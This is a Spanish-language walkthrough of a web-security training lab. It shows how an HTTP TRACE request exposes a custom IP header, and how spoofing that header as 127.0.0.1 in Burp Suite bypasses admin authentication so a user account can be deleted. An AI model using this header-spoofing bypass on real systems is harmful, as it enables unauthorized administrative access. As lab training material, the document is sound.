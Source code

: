 # 4 - Authentication bypass

> This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.
>
>  To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.
>
>  You can log in to your own account using the following credentials: `wiener:peter`

Si hacemos GET /admin vemos como esta solo accesible para los admins o para las ip locales.

Si usamos el HTTP **TRACE** obtenemos lo siguiente:

![](../../.gitbook/assets/imagen%20%28627%29.png)

```http
HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 853

TRACE /admin HTTP/1.1
Host: ac181f001e186d2d80062eab00b30088.web-security-academy.net
Cookie: session=nieLM2KCUFO2iEbBtR4jR8Es7NretfAS
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Referer: https://ac181f001e186d2d80062eab00b30088.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9
Connection: close
X-Custom-IP-Authorization: 186.54.60.157
```

Ver esa **x-custom-ip** tiene nuestra IP. Es usada para determinar que nuestra request viene de una red local o publica.

Vamos a "Proxy" &gt; "Options" &gt; "Match and Replace" y le damos add. No hay condicion de match pero en replace hacemos `X-Custom-IP-Authorization: 127.0.0.1` listo en este header estamos en una red interna

 Entramos a la zona de admins y borramos a carlos.









![](../../.gitbook/assets/imagen%20%28629%29.png)


